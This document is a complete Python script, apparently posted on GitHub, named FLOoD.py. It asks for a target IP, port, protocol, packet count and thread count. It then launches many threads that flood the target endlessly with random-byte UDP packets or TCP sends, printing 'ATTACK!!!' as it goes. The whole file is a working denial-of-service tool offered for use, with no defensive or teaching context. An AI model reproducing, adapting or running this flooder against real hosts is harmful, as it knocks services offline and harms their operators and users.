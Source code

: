 # FLOoD.py
#!/usr/bin/env python3

import random
import socket
import threading

print("###########################")
print("###### F L O O D BY. Karen ######")
print("###########################")
ip = str(input(" HOST/IP:"))
port = int(input(" PORT:"))
choice = str(input(" UDP(Y/N):"))	
times = int(input(" PACKETS PER ONE CONNECTION:"))
threads = int(input(" THREADS:"))
def run():
	data = random._urandom(2024)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" ATTACK!!!")
		except:
			print("[!] ERROR!!!")
			
def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" ATTACK!!!")
		except:
			s.close()
			print("[*] ERROR")

for Y in range(threads):
	if choice == 'Y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
